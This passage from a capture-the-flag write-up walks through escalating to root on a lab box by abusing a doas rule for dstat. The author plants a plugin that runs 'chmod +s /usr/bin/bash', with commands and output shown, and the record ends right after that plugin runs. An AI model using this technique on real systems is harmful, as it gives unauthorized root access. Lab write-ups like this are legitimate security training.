 This will allow us to run `dstat` as the root user. Sounds like a good place to start for privesc!

```jsx
player@soccer:~$ doas -u root dstat                                                                                             
doas: Operation not permitted
player@soccer:~$ doas -u root /usr/bin/dstat
You did not select any stats, using -cdngy by default.
--total-cpu-usage-- -dsk/total- -net/total- ---paging-- ---system--
usr sys idl wai stl| read  writ| recv  send|  in   out | int   csw 
  3   4  93   0   0| 112k   30k|   0     0 |   0     0 | 320   626 
  1   1  98   0   0|   0     0 | 242B  790B|   0     0 | 285   524 ^C
```

Note that similar to `sudo` you must use the full path to binary.

At the time of writing, there was nothing on GTFOBins or in the `-h` argument that suggests we can straight up exploit this into a root shell, so we do some searching and the top result for `dstat priv esc` is this article which describes creating a dstat plugin to spawn a shell:

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/)

So we give it a try:

```jsx
player@soccer:~$ find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
```

Create `dstat_exploit.py` in `/usr/local/share/dstat`

```jsx
import os

os.system('chmod +s /usr/bin/bash')
```

It recognises the plugin:

```jsx
player@soccer:~$ doas -u root /usr/bin/dstat --list | grep exploit
        exploit
```

`dstat` returns a bunch of error messages, but the code should have run:

```jsx
player@soccer:~$ doas -u root /usr/bin/dstat --exploit
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_exploit failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.

```
